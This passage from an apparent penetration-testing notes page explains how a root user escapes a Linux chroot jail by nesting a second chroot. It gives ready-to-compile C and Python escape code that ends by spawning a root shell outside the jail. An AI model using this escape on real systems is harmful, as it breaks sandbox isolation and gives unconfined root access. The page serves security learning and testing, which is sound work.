 ## GTFOBins

Search in  if you can execute any binary with "Shell" property

## Chroot Escapes

From : The chroot mechanism is not intended to defend against intentional tampering by privileged (root) users. On most systems, chroot contexts do not stack properly and chrooted programs with sufficient privileges may perform a second chroot to break out.
Usually this means that to escape you need to be root inside the chroot.

### Root + CWD

If you are root inside a chroot you can escape creating another chroot. This because 2 chroots cannot coexists (in Linux), so if you create a folder and then create a new chroot on that new folder being you outside of it, you will now be outside of the new chroot and therefore you will be in the FS.

This occurs because usually chroot DOESN'T move your working directory to the indicated one, so you can create a chroot but e outside of it.

Usually you won't find the `chroot` binary inside a chroot jail, but you could compile, upload and execute a binary:

C: break_chroot.c
```
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

Python
```
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
